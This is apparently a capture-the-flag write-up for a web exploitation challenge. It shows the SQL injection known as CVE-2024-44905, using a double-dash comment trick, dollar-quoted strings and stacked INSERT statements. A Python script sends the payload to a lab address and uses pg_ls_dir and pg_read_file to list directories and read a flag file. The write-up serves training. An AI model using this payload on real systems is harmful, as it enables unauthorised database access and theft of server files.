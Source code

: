 ```yaml
---
title: "Mechacore Inventory"
categories: Web Exploitation
tags: 
draft: true
completedDuringEvent: true
submitted: true
points: 120
solves: -1
flags: flag: THM{REDACTED}
---
```

> Virelia bought another Mechacore piece of junk. It's now an inventory system for their manufactured parts. Why a water company needs to create robot parts escapes me completely. Maybe we can access the server and clear our doubts.

---

This is `CVE-2024-44905` you can read more about it [Double Dash, Double Trouble: A Subtle SQL Injection Flaw](https://www.sonarsource.com/blog/double-dash-double-trouble-a-subtle-sql-injection-flaw/)

The vulnerable SQL query is as follows:

`item.creation_timestamp >= cast(extract(epoch from current_timestamp) as integer)-? or item.name=?`

Because there is a `-` in the query, it is possible to inject a negative number to comment the query after.

```sql
item.creation_timestamp >= cast(extract(epoch from current_timestamp) as integer)-- or item.name=foo
); INSERT INTO items (name, type, status, creation_timestamp, quantity, owner_id) 
VALUES ($$TEST$$,$$File$$,$$Imported$$,EXTRACT(EPOCH FROM now()),1,1);--
```

Because single quotes are not allowed, we can use `$$` to delimit the string.

```py
import requests

# url = "http://10.10.67.220/?lastnseconds=-1&name=foo\x0a)%3B INSERT INTO items (name, type, status, creation_timestamp, quantity, owner_id) \x0a VALUES (pg_ls_dir($$/home/ubuntu/$$),$$File$$,$$Imported$$,EXTRACT(EPOCH FROM now()),1,1)%3B--"
url = "http://10.10.67.220/?lastnseconds=-1&name=foo\x0a)%3B INSERT INTO items (name, type, status, creation_timestamp, quantity, owner_id) \x0a VALUES (pg_read_file($$/home/ubuntu/flag-12376287432546781647235.txt$$, 0, 10000),$$File$$,$$Imported$$,EXTRACT(EPOCH FROM now()),1,1)%3B--"

response = requests.get(url)
if response.status_code == 200:
    print("Request was successful.")
else:
    print(f"Request failed with status code: {response.status_code}")

print("Response content:", response.text)
```
